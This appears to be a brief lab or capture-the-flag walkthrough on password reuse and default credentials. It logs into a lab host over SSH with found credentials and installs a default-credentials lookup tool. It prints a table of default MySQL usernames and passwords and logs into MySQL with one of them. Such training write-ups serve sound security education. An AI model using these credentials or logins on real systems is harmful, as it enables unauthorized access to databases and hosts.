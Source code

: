 # Password Reuse / Default Passwords

### Use the user's credentials we found in the previous section and find out the credentials for MySQL. Submit the credentials as the answer.&#x20;

```bash
#creds sam:B@tm@n2022!
ssh sam@10.129.146.4
#installing default creddbs
git clone https://github.com/ihebski/DefaultCreds-cheat-sheet
pip3 install defaultcreds-cheat-sheet
./creds search mysql
+---------------------+-------------------+----------+
| Product             |      username     | password |
+---------------------+-------------------+----------+
| mysql               | admin@example.com |  admin   |
| mysql               |        root       | <blank>  |
| mysql (ssh)         |        root       |   root   |
| mysql               |      superdba     |  admin   |
| scrutinizer (mysql) |    scrutremote    |  admin   |
+---------------------+-------------------+----------+
mysql -u superdba -padmin
```
